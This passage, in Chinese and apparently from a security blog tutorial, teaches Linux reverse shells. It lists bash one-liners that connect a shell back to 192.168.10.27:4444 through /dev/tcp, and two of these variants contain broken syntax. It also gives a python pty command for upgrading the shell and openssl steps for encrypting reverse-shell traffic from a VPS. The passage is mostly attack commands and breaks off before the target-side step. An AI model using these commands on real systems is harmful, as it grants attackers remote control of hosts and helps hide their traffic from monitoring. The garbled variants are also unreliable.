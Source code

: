 

所以，学习了这些我们知道，以下这些命令其实都可以用于linux反弹shell。



```
bash -i >& /dev/tcp/192.168.10.27/4444 0>&1       
bash -i >& /dev/tcp/192.168.10.27/4444 0<&1       
bash -i $> /dev/tcp/192.168.10.27/4444 0>$1       
bash -i $> /dev/tcp/192.168.10.27/4444 0<&1
```




但是，很多时候，由于我们获取的shell并不是一个具有完整交互的shell，因此可能会在使用过程中被挂起，甚至还可能会因为我们的操作失误，例如不小心摁下了  Ctrl-C ，这将直接终止我们的整个shell进程。或者获得的shell类型是 sh 的，我们使用不习惯



如果目标主机有python环境，我们在用netcat获得了反弹的shell后，可以执行下面的命令，才获得一个正常的shell (可以进行交互的shell) ，可以执行 passwd 命令 ，但是 vim命令还是用不了



```
python -c 'import pty;pty.spawn("/bin/bash")'
```




![](https://img-blog.csdnimg.cn/20181201093916411.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 加密bash反弹shell的流量



第一步，在vps上生成SSL证书的[公钥](https://so.csdn.net/so/search?q=%E5%85%AC%E9%92%A5&spm=1001.2101.3001.7020)/私钥对，执行以下命令，一路回车即可



```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```




![](https://img-blog.csdnimg.cn/20200830111138553.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



第二步，在VPS监听反弹shell



```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```




第三步，在目标上用openssl加密反弹shell的流量
